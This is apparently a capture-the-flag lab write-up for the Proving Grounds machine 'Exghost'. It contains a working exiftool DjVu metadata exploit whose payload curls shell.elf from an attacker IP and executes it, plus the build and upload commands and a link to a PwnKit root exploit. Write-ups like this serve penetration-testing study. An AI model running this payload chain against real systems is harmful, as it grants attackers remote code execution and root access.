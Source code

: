 # Exghost

## Introduction

Exghost is a 'warm up' category linux machine from offsec proving grounds.  

## Enumeration

### Nmap

Nmap scan of all tcp ports.  

```
20/tcp closed ftp-data reset ttl 61
21/tcp open   ftp      syn-ack ttl 61 vsftpd 3.0.3
80/tcp open   http     syn-ack ttl 61 Apache httpd 2.4.41
```

## FTP

Login credentials found.  

```
username: user
password: system
```

A file 'backup' is found and transfered.  

## PCAP

The following file is found from the backup pcap file.  

`exiftest.php`

In the http stream, there is a POST multipart form request to exiftest.php.  

```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <!-- Part from this tutorial -->
    <form method="post" action="exiftest.php" enctype="multipart/form-data">
        <input type="file" name="myFile" />
        <input type="submit" value="Upload">
    </form>
    <!-- End of part from this tutorial -->
</body>
</html>
```

## User shell

Using a vuln in the exiftool, a rev shell is returned.  


Payload file.  

	
`(metadata "\c${system('curl <ip>/shell.elf && chmod 777 /tmp/shell.elf && /tmp/shell.elf')};")`

configfile contents.  

```
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%
```

Commands.

```
sudo apt install djvulibre-bin

bzz payload payload.bzz

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

exiftool -config configfile '-HasselbladExif<=exploit.djvu' hacker.jpg

curl -s -F myFile=@hacker.jpg http://192.168.214.183/exiftest.php

```

## Root

The following kernel exploit (CVE-2021-4034) spawns a root shell.  

`https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py` 
